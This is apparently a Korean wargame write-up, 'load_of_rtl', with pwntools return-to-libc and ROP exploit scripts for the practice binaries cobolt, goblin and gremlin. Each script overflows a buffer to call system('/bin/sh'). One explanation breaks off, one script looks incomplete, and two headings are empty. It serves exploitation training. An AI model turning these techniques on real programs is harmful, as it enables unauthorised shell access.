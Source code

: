 # load_of_rtl

## cobolt

You can use write, read, system and /bin/sh  
gdb를 통해 디버깅하여 system_plt = 0x4010b0임을 알 수 있고, pop_rdi 가젯의 주소와 /bin/sh의 주소를 확인할 수 있다.
버퍼의 크기와 dummy, SFP를 덮은 뒤 ret를 pop_rdi 가젯의 주소로 덮는다. pop_rdi 가젯을 활용하면 rdi에 /bin/sh의 주소를 넣은 뒤 system 함수의 plt로 return하여 system("/bin/sh")를 호출하게 된다.


```python
from pwn import *

p = process("./cobolt")

pop_rdi = 0x401353
binsh = 0x404060
system_plt = 0x4010b0

p.recvuntil(b"You can use write, read, system and /bin/sh\n")

payload = b'A'*0x40
payload += b'B'*0x8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi+1)
payload += p64(system_plt)
p.send(payload)

p.interactive()
```


## goblin


You can use read and system  
gdb를 통해 디버깅하여 read함수의 주소와 system함수의 주소를 알아낼 수 있다. "/bin/sh" 문자열이 필요하므로 

```python
from pwn import *

p = process("./goblin")

pop_ret = 0x08049022
pop3_ret = 0x08049391
read_plt = 0x80490b0
system_plt = 0x80490e0
bss = 0x804c030 + 0x300
main = 0x80492f3


payload = b'A'*0x44
payload += b'B'*0x4
# bss영역에 /bin/sh 저장
payload += p32(read_plt)
payload += p32(pop3_ret)
payload += p32(0)
payload += p32(bss)
payload += p32(8)
# system 실행
payload += p32(system_plt)
payload += b'C'*0x4
payload += p32(bss)
p.send(payload)

# /bin/sh 보내기
# sleep(0.1)
p.send(b"/bin/sh\x00")

p.interactive()
```





## gremlin


You can use write, read, system and /bin/sh  
system("/bin/sh")를 호출하기 위해 system함수의 주소와 "/bin/sh"의 주소를 구한다. ret를 system함수로 덮어주고 esp+0x4 자리에 "/bin/sh"의 주소를 쓰고 사이를 더미값으로 채워주면 system("/bin/sh")를 호출할 수 있다.

```python
from pwn import *

p = process("./gremlin")

system_plt = 0x80490f0
binsh = 0x804c034

# system("/bin/sh") 실행
p.recvuntil(b"You can use write, read, system and /bin/sh\n")
payload = b'A'*0x44
payload += b'B'*0x4
payload += p32(system_plt)
# payload += b'C'*0x4
# payload += p32(binsh)
pause()
p.send(payload)

p.interactive()
```



## orc




## wolfman
